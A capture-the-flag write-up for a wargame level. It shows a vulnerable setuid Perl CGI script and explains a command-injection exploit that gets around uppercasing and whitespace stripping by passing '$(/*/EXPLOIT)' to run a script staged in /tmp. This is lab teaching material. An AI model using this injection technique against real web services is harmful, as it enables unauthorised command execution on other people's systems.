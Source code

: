 # Level12 Writeup
 
## Info
 
User level12 has a setuid (flag12) perl `level12.pl` in the root of their home directory.
 
`level12.pl`
``` perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";
 
sub t {
 $nn = $_[1];
 $xx = $_[0];
 $xx =~ tr/a-z/A-Z/;
 $xx =~ s/\s.*//;
 @output = `egrep "^$xx" /tmp/xd 2>&1`;
 foreach $line (@output) {
     ($f, $s) = split(/:/, $line);
     if($s =~ $nn) {
         return 1;
     }
 }
 return 0;
}
 
sub n {
 if($_[0] == 1) {
     print("..");
 } else {
     print(".");
 }   
}
 
n(t(param("x"), param("y")));
```
 
Using nmap we can confirm that there is indeed a port open on 4646. However this isn't as easy as in level04, there are 2 caveats in executing shell scripts. `$xx =~ tr/a-z/A-Z/;` capitalizes our input and `$xx =~ s/\s.*//;` removes all content after a single whitespace. Meaning we need to create an exploit that has no whitespace and works with only capital letters.
 
## Victory
 
We can simply create a script with full capital letters like `EXPLOIT` and place it in a folder where all users have access, like /tmp.
 
`EXPLOIT`
``` bash
getflag > /tmp/flag
```
 
Then we navigate to the web server via a browser and simply pass `$(/*/EXPLOIT)` to param x. Where the number of /* is equal to the number of folders in the path to our program.
 
Simply cat the file created and voila, the flag.